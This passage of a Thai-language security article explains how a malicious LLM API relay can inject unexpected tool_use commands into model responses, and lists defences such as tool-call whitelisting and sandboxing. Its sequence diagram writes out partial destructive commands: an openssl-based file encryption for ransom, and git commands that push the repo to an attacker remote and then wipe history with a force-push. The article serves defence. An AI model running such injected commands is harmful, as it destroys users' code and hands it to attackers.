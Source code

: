 ### วิธีป้องกัน

* **เลือกบริการรีเลย์อย่างระมัดระวัง**: เป็นมาตรการพื้นฐานที่สุด ควรเลือกบริการอย่างเป็นทางการหรือมีชื่อเสียงดีเป็นอันดับแรก
* **เพิ่มการตรวจสอบรายการขาวของคำสั่ง Tool Use ที่ไคลเอนต์**: หากเป็นไคลเอนต์ที่คุณพัฒนาเอง ควรตรวจสอบคำสั่ง `tool_use` ที่โมเดลส่งกลับอย่างเข้มงวด โดยอนุญาตเฉพาะเมธอดที่คาดการณ์ไว้และปลอดภัยเท่านั้น
* **ตรวจสอบโค้ดที่โมเดลสร้างขึ้น**: ต้องตรวจสอบโค้ดที่ AI สร้างขึ้น โดยเฉพาะเมื่อมันเกี่ยวข้องกับระบบไฟล์ เครือข่าย หรือคำสั่งระบบ
* **รันเครื่องมือช่วยของ AI ในแซนด์บอกซ์หรือคอนเทนเนอร์**: สร้างสภาพแวดล้อมการพัฒนาเฉพาะ เพื่อแยกสภาพแวดล้อมการพัฒนาออกจากสภาพแวดล้อมการใช้งานทั่วไป ลดโอกาสการเปิดเผยข้อมูลสำคัญ
* **รันโค้ดในแซนด์บอกซ์หรือคอนเทนเนอร์**: วางโค้ดที่สร้างโดย AI หรือเครื่องมือที่ต้องใช้ Tool Use ไว้ในสภาพแวดล้อมที่แยกตัว (เช่น Docker container) จำกัดการเข้าถึงระบบไฟล์และเครือข่าย ซึ่งจะเป็นแนวป้องกันสุดท้าย

## ความเสี่ยงของการดักจับข้อมูล

ความเสี่ยงในการรับข้อมูลที่ก้าวไปอีกขั้นคือการดักจับข้อมูล (Data Hijacking) ผู้ดำเนินการไม่พอใจแค่การดึงข้อมูล แต่ยังส่งผลโดยตรงต่อข้อมูลหรือทรัพย์สินของผู้ใช้ สิ่งนี้สามารถใช้บริการรีเลย์เป็นฐานโจมตี ผ่านการอินเจคคำสั่ง `tool_use` ที่ไม่ได้คาดการณ์ไว้

```mermaid
sequenceDiagram
    participant User as ผู้ใช้
    participant Client as ไคลเอนต์ (ปลั๊กอิน IDE)
    participant MitMRouters as บริการรีเลย์ MITM
    participant LLM as บริการโมเดล
    participant ThirdParty as ผู้โจมตี

    User->>Client: ป้อนคำสั่งปกติ (เช่น "ช่วยปรับโครงสร้างโค้ด")
    Client->>MitMRouters: ส่งคำขอ API
    MitMRouters->>LLM: โอนคำขอ
    LLM-->>MitMRouters: ส่งคืนการตอบกลับปกติ (อาจมี Tool Use ที่ถูกต้อง)
    
    MitMRouters->>MitMRouters: อินเจคคำสั่งดักจับข้อมูล
    MitMRouters->>Client: ส่งคืนการตอบกลับที่ถูกแก้ไข

    alt วิธีที่หนึ่ง: การเข้ารหัสไฟล์
        Client->>Client: รันคำสั่ง Tool Use ที่ไม่ได้คาดการณ์:<br> find . -type f -name "*.js" -exec openssl ...
        Note right of Client: ไฟล์โครงการผู้ใช้ถูกเข้ารหัส,<br> ไฟล์เดิมถูกลบ
        Client->>User: แสดงข้อความเฉพาะ:<br> "ไฟล์ของคุณถูกเข้ารหัส,<br> กรุณาติดต่อ..."
    end

    alt วิธีที่สอง: การควบคุมที่อยู่เก็บโค้ด
        Client->>Client: รันคำสั่ง Tool Use ที่ไม่ได้คาดการณ์ (git):<br> 1. git remote add backup ... <br> 2. git push backup master <br> 3. git reset --hard HEAD~100 <br> 4. git push origin master --force
        Note right of Client: ประวัติการแก้ไขท้องถิ่นและระยะไกลถูกลบ
        Client->>User: แสดงข้อความเฉพาะ:<br> "ที่อยู่เก็บโค้ดของคุณถูกล้าง,<br> กรุณาติดต่อ... เพื่อกู้คืน"
    end
```
